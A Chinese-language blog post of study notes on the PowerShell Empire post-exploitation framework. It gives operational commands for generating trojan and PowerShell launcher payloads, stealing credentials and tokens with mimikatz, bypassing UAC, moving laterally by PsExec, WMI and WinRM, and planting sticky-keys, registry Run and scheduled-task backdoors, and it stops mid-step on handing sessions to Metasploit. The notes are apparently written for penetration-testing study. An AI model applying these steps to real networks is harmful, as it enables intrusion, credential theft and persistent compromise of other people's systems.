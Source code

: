 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      empire学习              # 标题 
subtitle:   回顾整理一下之前的学习笔记
date:       2020-03-31              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```



## 0x00：empire利用思路：
> Empire是一个PowerShell后期漏洞利用代理工具同时也是一款很强大的后渗透测神器，它建立在密码学、安全通信和灵活的架构之上。Empire实现了无需powershell.exe就可运行PowerShell代理的功能。快速部署后期漏洞利用模块，从键盘记录器到Mimikatz，并且能够适应通信躲避网络检测，所有的这些功能都封装在一个以实用性为重点的框架中

**一、安装：**  
> 在github上面有对应的项目直接git clone下来然后进入empire/setup/,运行install.sh即可完成安装

**二、设置监听**  
输入listeners进入监听线程界面，可以输入help命令查看帮助文件  
接着输入uselistener来设置采用何种模式，此刻双击tab键可以看到七种模式。  
选择模式后，输入info查看具体参数设置、然后输入execute命令即可开始监听。  
拓展：输入back返回上一层listeners界面，然后输入list命令查看当前激活的listener，可以使用kill命令删除该监听。  
在listeners界面输入agents即可查看到监听上线的机器  
**三、生成木马**  
输入usestager进入木马生成模块，双击tab进行模块查看，
输入usestager windows/dll即可使用该模块，输入info设置参数
①生成木马文件：
直接execute即可生成木马文件
②生成powershell代码
back返回listeners模块，输入launcher powershell shuteer即可生成payload，复制到目标powershell上执行即可。
**四、连接主机及其基本使用**  
> 返回listeners模块之后利用agents命令列出当前已连接的主机，带*号的为已提权成功的主机，接着使用interact <name>即可连接主机。连接之后的命令和metasploit的部分常用命令兼容，可利用help查看命令

> 利用mimikatz时可以输入creds过滤整理用户密码，双击tab键可以 查看选项。

由于在实际渗透中，有部分主机会过期，在agents界面输入 list stale以及remove stale即可处理完毕。

**五、利用empire进行信息收集**  
Usemodule collection/然后双击tab显示选项，选择后输入info查看具体参数。  
arp扫描： usemodule situational_awareness/network/arpscan，然后设置range模块、  
即可扫描网段  
dns信息获取：usemodule situational_awareness/network/reverse_dns设置range然后运行。还可以利用usemodelu situational_awareness/host/dnsserver显示当前内网dns服务器的ip地址  
**六、查找域管登陆服务器ip**  
基本思路找到域管登陆的机器，然后横向渗透进去，窃取域管权限，从而拿下整个域。  
使用usemodule situational_awareness/network/powerview/user_hunter查看哪位用户登陆了哪台主机。  
然后使用本地管理组访问模块查看本地管理组成员：usemodule situational_awareness/network/powerview/find_localadmin_access  
接下来获取域控制器  
由于拥有域用户权限，直接使用usemodule situational_awareness/network/powerview/get_domain_controller来获取当前的域控制器，使用shell命令尝试验证：shell dir \\DC\c$  
**七、权限提升**  
提权方式：
- ①输入usemodule privesc/bypassuac,设置listener参数，
- ②使用内置powerup模块 usemodule privesc/powerup/双击tab查看模块列表选择模块执行。
- ③GPP：在域里常会骑勇组策略首选项来更改本地密码，便于管理的部署映像，任何普通域用户都可以从相关域控制器的SYSVOL中读取部署信息，输入:usemodule privesc/gpp即可查看

**八、横向渗透：**
- 1、令牌窃取：利用内置的mimikatz获取系统密码，执行完后输入creds即可查看列举的密码、
如果域用户曾在此服务器上登录，则可以窃取域用户身份，然后进行横向移动，首先窃取身份，使用pth <ID>命令，ID号为creds下的CREDID号；接下来可查看到PID进程号，使用steal_token PID命令窃取该身份令牌。同样可以输入ps查看域用户进程，然后使用steal_token 命令来窃取这个令牌。恢复令牌权限时可用命令 revtoself
- 2、会话注入：使用usemodule management/psinject模块进行进程注入，获取权限。
我们需要设置listener和Proc ID这两个参数。运行后反弹回一个域用户权限shell。
- 3、invoke-PsExec:
该工具能被基本的杀毒软件检测到并留下日志，还需要开启admin$445端口共享，其优点是可以直接返回system权限，使用该模块的前提是已经获得本地管理员权限，甚至是域管理员账户，然后以此进一步持续渗透整个内网。
Usemodule lateral_movement/invoke_psexec
Set computername xxxxxxx
Set listener shuteer
- 4、invoke-WMI
可以做到无日志攻击，同时攻击脚本无需写入磁盘，具有极高的隐蔽性，但是如果开启防火墙，用WMI无法连接上目标机器。
同样需要设置监听以及主机名
Usemodule lateral_movement/invoke_wmi
- 5、powershell remoting
需要开启windows远程管理服务winrm系统监听5985端口。如果目标主机启用或者拥有启用它的权限的凭据，则可以使用模块
Usemodule lateral_movement/invoke_psremoting
设置主机名以及监听等待返回

**九、后门**  
1、权限持久性劫持shift后门  
输入usemodule lateral_movement/invoke_wmi_debuggerinfo命令即可使用该模块  
输入info查看具体的设置参数  
Set Listener shuteer  
Set ComputerName xxxxxx  
Set TargetBinary sethc.exe  
运行后在目标主机按五次shift即可触发后门  
其中sethc.exe可替换成一下几项:  
Utilman.exe（使用win+u组合键启动）  
Osk.exe（屏幕上的键盘：使用win+u）  
Narrator.exe（启动讲述人：使用win+U启动组合键）  
Magnify.exe（放大镜：使用win+u启动组合键）  
2、注册表注入后门  
Usemodule persistence/userland/registry模块：  
Set Listener shuteer  
Set RegPath HKCU: Software\Microsoft\Windows\CurrentVersion\Run  
当我们登陆系统时木马就会运行，服务端反弹成功  
3、计划任务获得系统权限  
Usemodule persistence/elevated/schtasks设置DailyTime、listener两个参数即可，实际渗透中，会被杀毒软件提示。  
在实施计划任务获取权限时，可以加入注册表后门。  
**十、empire反弹回metasploit**  
当绕过msf客服端无法绕过目标主机的杀毒软件时，可以用powershell或者empire的payload绕过，成功之后使用empire的模块将其反弹回metasploit  
Usemodule code_execution/invoke_shellCode模块修改两个参数lhost和lport  
在msf中如下设置：  
